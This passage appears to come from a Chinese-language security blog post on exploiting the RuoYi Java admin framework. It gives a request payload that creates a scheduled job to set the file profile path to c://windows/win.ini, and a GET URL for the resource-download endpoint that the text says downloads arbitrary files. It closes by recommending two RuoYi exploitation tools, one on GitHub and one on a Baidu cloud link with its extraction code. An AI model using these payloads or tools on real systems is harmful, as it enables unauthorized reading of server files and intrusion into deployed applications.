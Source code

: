createBy=admin&jobName=renwu&jobGroup=DEFAULT&invokeTarget=ruoYiConfig.setProfile('c://windows/win.ini')&cronExpression=0%2F15+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&status=0&remark=
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyhTTKiad38Hia6rB9VSXB1XwUYJZwic4z2kbkO2VEude2gRWxh68pK4K4ygMyLlR9OpsXNhMtEAEOx8Q/640?wx_fmt=png&from=appmsg "")  
  
通过浏览器直接get请求以下地址即可，下载任意文件。  
```
http://127.0.0.1/common/download/resource?resource=c://windows/win.ini:.zip
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyhTTKiad38Hia6rB9VSXB1XwUJsDUUxBcC3FfUrEJvAdWaKGicEHx14Yia8Sic5Y7hibweVtj11Kc1rI4DA/640?wx_fmt=png&from=appmsg "")  
## 若依框架综合利用工具推荐  
  
```
若依漏洞利用工具1：https://github.com/thelostworldFree/Ruoyi-All若依漏洞利用工具2：链接：https://pan.baidu.com/s/1yAUm6CP5uFpUwEqbYeXtCg?pwd=sazx提取码：sazx
```  
  
  
   
  
